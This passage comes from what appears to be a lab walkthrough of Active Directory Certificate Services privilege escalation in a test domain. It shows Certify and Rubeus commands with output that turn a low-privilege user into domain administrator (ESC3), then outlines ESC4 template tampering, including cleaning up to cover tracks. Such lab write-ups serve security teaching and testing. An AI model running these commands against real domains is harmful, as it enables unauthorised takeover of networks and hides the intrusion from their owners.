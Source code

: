 Step 2: Use agent certificate to request certificate for Domain Admin

```bash
Certify.exe request /ca:braavos.essos.local\ESSOS-CA /template:User /onbehalfof:ESSOS\administrator /enrollcert:agent.pfx /enrollcertpw:mimikatz

[*] Action: Request a Certificates on behalf of another user
[*] Current user context    : ESSOS\khal.drogo
[*] Template                : User
[*] On behalf of            : ESSOS\administrator
[*] Agent Certificate       : agent.pfx

[*] Certificate Authority   : braavos.essos.local\ESSOS-CA
[*] CA Response             : The certificate has been issued.
[*] Request ID              : 10

[*] cert.pem                :
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA8Fj9BNQ3T4Uy8F0aGF9ZLQWxkT8F6PSyEzGCq5VJXpF8rTQ
...administrator certificate...
-----END CERTIFICATE-----
```

Step 3: Authenticate as administrator

```bash
Rubeus.exe asktgt /user:administrator /certificate:admin.pfx

[*] Action: Ask TGT
[*] Using PKINIT with etype rc4_hmac and subject: CN=administrator, CN=Users, DC=essos, DC=local
[+] TGT request successful!

  ServiceName              : krbtgt/essos.local
  ServiceRealm             : ESSOS.LOCAL
  UserName                 : administrator
  UserRealm                : ESSOS.LOCAL
  StartTime                : 1/3/2025 11:15:23 AM
  EndTime                  : 1/3/2025 9:15:23 PM
  RenewTill                : 1/10/2025 11:15:23 AM
  Flags                    : name_canonicalize, pre_authent, initial, renewable, forwardable
```

Perfect! We've escalated from `khal.drogo` to `administrator` using the ESC3 technique.

## ESC4: Vulnerable Certificate Template Access Control

ESC4 is one of my favorite techniques because it's sneaky. Instead of exploiting existing vulnerable templates, you modify a secure template to make it vulnerable, exploit it, then clean up your tracks.

### Exploitation Strategy

Here's how the attack works:
1. Find templates where you have dangerous permissions (WriteProperty or WriteOwner)
2. Modify the template to make it vulnerable to ESC1
3. Exploit the newly vulnerable template
4. Clean up your modifications to cover your tracks
